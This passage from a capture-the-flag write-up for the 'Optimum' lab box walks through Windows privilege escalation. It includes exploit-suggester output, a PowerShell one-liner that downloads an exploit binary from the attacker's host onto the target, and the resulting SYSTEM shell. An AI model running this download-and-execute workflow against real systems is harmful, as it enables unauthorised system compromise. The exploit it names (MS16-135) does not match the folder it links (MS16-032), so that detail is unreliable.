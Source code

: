 ```console
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

Thats a lot. I have two trains of thought when I encounter a set of options like this. I can either start with the newest exploit first -- hoping the box was made before that particular issue was patched, or I can start with the oldest exploit first thinking that is what the creator of the box intended. I feel like the former is more like real life, so I am going to start at the top with `https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)`.

That didn't work like I'd hope it was going to. Its written in c, which means I would need to compile it for windows and that is a lot more in depth than I know this box is going to be. I need to find a pre-compiled version of this exploit (or another on the list) somewhere.

Github to the rescue -- I found both x64 and x86 versions [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032). From the systeminfo data I got before, I know its a 64-bit machine. So I need to get that over to the box, I am going to host it locally:

```console
root@discovery:~/htb/oscp-like/optimum# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/)                                   
```

And then make a call to download it to a directory I should have full rights over:

```powershell
C:\Users\kostas\Desktop>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.75:8080/exploit.exe', 'c:\Users\kostas\desktop\exploit.exe')"
```

```console
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir^H^H^H
dir
'' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
And to get the flag:
```console
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

```